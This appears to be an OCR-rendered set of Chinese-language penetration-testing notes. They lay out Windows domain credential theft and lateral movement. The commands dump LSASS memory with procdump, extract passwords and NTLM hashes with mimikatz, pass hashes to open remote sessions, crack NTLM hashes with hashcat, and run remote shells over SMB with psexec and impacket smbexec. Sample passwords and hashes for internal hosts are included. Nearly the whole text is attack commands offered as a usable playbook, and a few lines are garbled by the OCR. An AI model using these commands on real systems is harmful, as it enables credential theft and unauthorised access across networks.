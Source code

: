 https://docs.microsoft.com/zh-cn/sysinternals/downloads/procdump

###### Procdump+Mimikatz 配合获取

procdump -accepteula -ma lsass.exe lsass.dmp

~~~
sekurlsa::pth /user:administrator /domain:remoteserver /ntlm:c64c941475ad32523154462d324e40fa "/run:mstsc.exe /restrictedadmin"
~~~

（2）mimikatz 上执行：

sekurlsa::minidump lsass.dmp

sekurlsa::logonPasswords full

\#Pwdump7

\#QuarksPwdump

###### hashcat破解hash密码

https://www.freebuf.com/sectool/164507.html

hashcat -a 0 -m 1000 hash file --force		这里-a 0是代表字典攻击，1000是表示NTLM hash

###### 域横向移动 SMB 服务利用-psexec,smbexec(官方自带)

https://docs.microsoft.com/zh-cn/sysinternals/downloads/procdump

利用 SMB 服务可以通过明文或 hash 传递来远程执行，条件 445 服务端口开放。#psexec 第一种：先有 ipc 链接，psexec 需要明文或 hash 传递

net use \\192.168.3.32\ipc$ "admin!@#45" /user:ad

ministrator

psexec \\192.168.3.32 -s cmd # 需要先有 ipc 链接 -s 以 System 权限运行

\#psexec 第二种：不用建立 IPC 直接提供明文账户密码

psexec \\192.168.3.21 -u administrator -p Admin12345 -s cmd

psexec -hashes :\$HASH$ ./administrator@10.1.2.3

psexec -hashes :\$HASH$ domain/administrator@10.1.2.3

psexec -hashes :518b98ad4178a53695dc997aa02d455c ./administrator@192.168.3.32 官方 Pstools 无法

采用 hash 连接

###### impacket-smbexec

https://docs.microsoft.com/zh-cn/sysinternals/downloads/pstools

\#smbexec 无需先 ipc 链接 明文或 hash 传递

smbexec god/administrator:Admin12345@192.168.3.21

smbexec ./administrator:admin!@#45@192.168.3.32

smbexec -hashes :\$HASH$ ./admin@192.168.3.21

smbbexec -hashes :\$HASH$ domain/admin@192.168.3.21
